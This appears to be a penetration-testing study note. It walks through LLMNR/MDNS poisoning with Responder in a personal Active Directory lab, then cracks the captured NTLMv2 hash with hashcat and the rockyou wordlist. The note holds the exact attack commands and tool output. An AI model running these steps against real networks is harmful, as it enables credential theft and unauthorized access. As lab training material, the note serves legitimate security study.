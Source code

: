 
# Capturing Hashes with [Responder](/cybersecurity/tools/exploitation/responder.md)
Responder is a tool which can be used to perform [LLMNR poisoning](/PEH/active-directory/initial-vectors/LLMNR-poisoning.md) attacks on an [active directory](/computers/windows/active-directory/active-directory.md) domain. [LLMNR](/networking/protocols/LLMNR.md) is not the only protocol which responder can do a poisoning attack on. It can also be used against [NBT-NS](/networking/protocols/NBT-NS.md) and [MDNS](/networking/protocols/MDNS.md).
## Example Usage
Against our AD lab, we're going to use Responder to perform LLMNR poisoning. This will allow us to capture the hash sent for authentication from the victim machine. Once we have the hash, we can crack it to get the password for that machine.

With our AD lab up and active, we're going to use the following command with responder to attack the [domain controller](/computers/windows/active-directory/domain-controller.md)
```bash
responder -I eth0 -dwP
```
### Flags used:
- `-I/ --interface`: tells responder which network interface we want to use.
- `-d/ --DHCP`: tells responder to *also respond* to [DHCP](/networking/protocols/DHCP.md) broadcast requests.
- `-w/ --wpad`: starts a rogue [WPAD](/computers/windows/active-directory/WPAD.md) server (which will respond to hostname resolution requests)
- `-P/ --ProxyAuth`: tells Responder to force NTLM authentication (even if the target network doesn't have WPAD on)
- **OTHER**: `-v/ --verbose`: Will add hashes which you've already captured to the output.
With these flags on, and your attack box on the *same network* as the domain and domain computers, the output should look like this:
```bash
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [ON]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.0.2.4]
    Responder IPv6             [fe80::a00:27ff:fed8:d39f]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-06P8C35WKXO]
    Responder Domain Name      [SZWS.LOCAL]
    Responder DCE-RPC Port     [45001]

[+] Listening for events... 
```
Note that all of the poisoner and server types should be on. If you've used Responder before, and changed these, then change them back. Responder is now *listening to your `eth0` interface* for incoming packets related to the listed  protocols.
## Forcing Some Traffic
In a real pentest, you might not see any traffic until staff in the client organization actually login to their AD accounts. So, to force some traffic in our lab simulation, we can login to one of our regular domain VMs.
### Traffic From Powering Up Host
![](PNPT-pics/active-directory-9.png)
This is the traffic I was able to capture simply by powering on one of my AD user boxes (haven't logged in as that user yet). This traffic tells us that an MDNS (multicast DNS) request to resolve the hostname *`TRASHCAN.local`*. Our rogue server *responded w/ a poisoned answer* (which was sent to our user box which we powered up).
### Searching for IP in filesystem
Now, if we go to the user VM's File Explorer and search for the IP *of our attacking machine* we get the following hash in Responder:
![](PNPT-pics/active-directory-10.png)
This screenshot shows the hash our rogue server received when Dan Dumpster searched for our attacking IP address while logged in to a domain computer. Now that we have the hash (which is an DES-made hash) we can easily crack it to get Dan Dumpster's password.
## Cracking the Hash
To crack this hash, we're going to use [Hashcat](/cybersecurity/tools/cracking/hashcat.md). Hashcat is a cracking program which *ideally* uses GPU processing to crack hashes in many different formats. To crack this hash, we're going to specify a value of 5600 to the `-m` flag. This tells hashcat that we're cracking an [NTLMv2](networking/protocols/NTLM.md) hash.

To give hashcat the hash, copy and paste the entire hash into a file called `hashes.txt`. The hash includes the username and password, so everything from `ddumpster::LANDFILL:...` to `...00000000` at the very end (in my example).

Once that's saved in a file, the command we use w/ hashcat is as follows:
```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```
We're also using the RockYou [wordlist](/cybersecurity/tools/scanning-enumeration/wordlists/seclists.md) which hashcat will use to generate hashes to try and match the one we're looking for. Even in a VM, this crack only takes hashcat about 16 seconds:
![](PNPT-pics/active-directory-11.png)
Now we can log in as Dan Dumpster!

> [!Resources]
> - My other notes (linked throughout), all of which can be found [here](https://github.com/TrshPuppy/obsidian-notes)